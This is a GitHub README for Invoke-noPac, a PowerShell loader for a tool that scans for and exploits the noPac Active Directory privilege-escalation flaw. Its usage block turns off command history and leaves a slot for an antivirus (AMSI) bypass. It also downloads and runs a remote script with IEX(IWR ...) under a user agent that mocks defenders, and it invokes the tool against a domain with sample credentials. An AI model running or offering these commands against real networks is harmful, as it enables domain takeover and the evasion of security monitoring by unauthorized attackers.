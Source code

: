 # Invoke-noPac

## The .Net assembly is based on my fork https://github.com/ricardojba/noPac that has a few code changes to improve upon the original.

[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style .Net Assembly loader for the CVE-2021-42287-CVE-2021-42278 Scanner & Exploiter [noPac](https://github.com/ricardojba/noPac).

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-noPac.ps1')

Invoke-noPac
Invoke-noPac -Command "scan -domain htb.local -user domain_user -pass 'Password123!'"
Invoke-noPac -Command "scan -domain htb.local -user domain_user -pass 'Password123!' /enctype rc4"
```

## Credits

[cube0x0](https://twitter.com/cube0x0) for the original [noPac](https://github.com/cube0x0/noPac) code.
